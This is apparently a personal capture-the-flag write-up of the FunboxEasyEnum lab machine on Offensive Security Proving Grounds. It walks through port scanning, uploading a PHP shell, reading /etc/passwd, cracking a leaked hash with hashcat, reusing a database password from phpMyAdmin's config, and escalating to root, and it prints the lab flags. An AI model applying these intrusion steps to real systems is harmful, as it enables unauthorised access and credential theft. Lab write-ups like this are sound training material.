








On a lazy Saturday morning, August 17, 2024, I embarked on a thrilling adventure in the world of Offensive Security, tackling the FunboxEasyEnum box on the Proving Grounds Play labs. This easy-level warmup machine was the perfect way to kick-start my journey, and I'm excited to share my experience with you.

### Port Scan

From port scan we got:

```shell
nmap -sC -sV -A -T4 -p- 192.168.235.132  -o scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 08:12 EDT
Nmap scan report for 192.168.235.132
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.77 seconds

```


### Enumeration 

Ran gobuster for directory enumeration:



Only /phpmyadmin is accessible


Analyzing burp request found that /phpmyadmin/js/whitelist.php and /js/messages.php are readable:


Nothing interesting here, re run enumeration with gobuster filtering for php file:



Try mini.php:


### Access

I uploaded a shell.php while listening on my kali:



```shell
lrwxrwxrwx   1 root root        31 Sep 18  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-117-generic
$ cd /var/www/ 
$ ls
html
local.txt
$ cat local.txt
896e80f60f8536d18c123448e656a7fc
$ 

```

Found first flag


```shell
www-data@funbox7:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
www-data@funbox7:/etc$ 

```

There's an hash in passwod

```shell
hashcat -m 500 oracle_hash
found:hiphop

```

Regain the revshell and from www-data run sudo su

``` shell
www-data@funbox7:/etc/phpmyadmin$ ls
ls
apache.conf    config.footer.inc.php  htpasswd.setup      phpmyadmin.service
conf.d         config.header.inc.php  lighttpd.conf
config-db.php  config.inc.php         phpmyadmin.desktop
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

```

Now we can log in phpmyadmin



```
sudo su karla:tgbzhnujm! 
```

Let's see what karla can run

``` shell
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL

```

Run sudo su with its password:

```shell
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# ls
root@funbox7:/home/karla# cd /root/root.txt
bash: cd: /root/root.txt: No such file or directory
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# 
```




# Flags

```shell
local:896e80f60f8536d18c123448e656a7fc
proof.txt: d0a70330bf49d3799b000cbe3d7ec011
```

